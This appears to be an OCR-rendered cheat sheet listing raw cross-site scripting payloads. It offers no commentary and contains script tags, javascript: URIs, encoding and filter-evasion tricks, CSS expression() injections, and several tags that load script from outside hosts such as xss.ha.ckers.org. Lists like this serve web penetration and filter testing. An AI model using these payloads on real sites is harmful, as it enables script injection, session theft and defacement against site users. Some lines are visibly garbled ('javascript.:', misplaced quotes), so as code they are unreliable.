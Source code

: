 ```
<img src="javas&#99;ript:alert('XSS')">
%0a%0a<script>alert(\"Vulnerable\")</script>.jsp
%3c/a%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
%3c/title%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
%3cscript%3ealert(%22xss%22)%3c/script%3e/index.html
<script>alert('Vulnerable')</script>
a.jsp/<script>alert('Vulnerable')</script>
"><script>alert('Vulnerable')</script>
<IMG SRC="javascript.:alert('XSS');">
<IMG src="/javascript.:alert"('XSS')>
<IMG src="/JaVaScRiPt.:alert"('XSS')>
<IMG src="/JaVaScRiPt.:alert"(&quot;XSS&quot;)>
<IMG SRC="jav&#x09;ascript.:alert('XSS');">
<IMG SRC="jav&#x0A;ascript.:alert('XSS');">
<IMG SRC="jav&#x0D;ascript.:alert('XSS');">
"<IMG src="/java"\0script.:alert(\"XSS\")>";'>out
<IMG SRC=" javascript.:alert('XSS');">
<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>
<BODY BACKGROUND="javascript.:alert('XSS')">
<BODY ONLOAD=alert('XSS')>
<IMG DYNSRC="javascript.:alert('XSS')">
<IMG LOWSRC="javascript.:alert('XSS')">
<BGSOUND SRC="javascript.:alert('XSS');">
<br size="&{alert('XSS')}">
<LAYER SRC="http://xss.ha.ckers.org/a.js"></layer>
<LINK REL="stylesheet"HREF="javascript.:alert('XSS');">
<IMG SRC='vbscript.:msgbox("XSS")'>
<META. HTTP-EQUIV="refresh"CONTENT="0;url=javascript.:alert('XSS');">
<IFRAME. src="/javascript.:alert"('XSS')></IFRAME>
<FRAMESET><FRAME. src="/javascript.:alert"('XSS')></FRAME></FRAMESET>
<TABLE BACKGROUND="javascript.:alert('XSS')">
<DIV STYLE="background-image: url(javascript.:alert('XSS'))">
<DIV STYLE="behaviour: url('http://www.how-to-hack.org/exploit.html&#39;);">
<DIV STYLE="width: expression(alert('XSS'));">
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
<IMG STYLE='xss:expre\ssion(alert("XSS"))'>
<STYLE. TYPE="text/javascript">alert('XSS');</STYLE>
<STYLE. TYPE="text/css">.XSS{background-image:url("javascript.:alert('XSS')");}</STYLE><A CLASS=XSS></A>
<STYLE. type="text/css">BODY{background:url("javascript.:alert('XSS')")}</STYLE>
<BASE HREF="javascript.:alert('XSS');//">
getURL("javascript.:alert('XSS')")
a="get";b="URL";c="javascript.:";d="alert('XSS');";eval(a+b+c+d);
<XML SRC="javascript.:alert('XSS');">
"> <BODY NLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><"
<SCRIPT. SRC="http://xss.ha.ckers.org/xss.jpg"></SCRIPT>
<IMG SRC="javascript.:alert('XSS')"
<SCRIPT. a=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT.=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT. a=">"''SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT."a='>'"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT>document.write("<SCRI");</SCRIPT>PTSRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<A HREF=http://www.gohttp://www.google.com/ogle.com/>link</A>
```
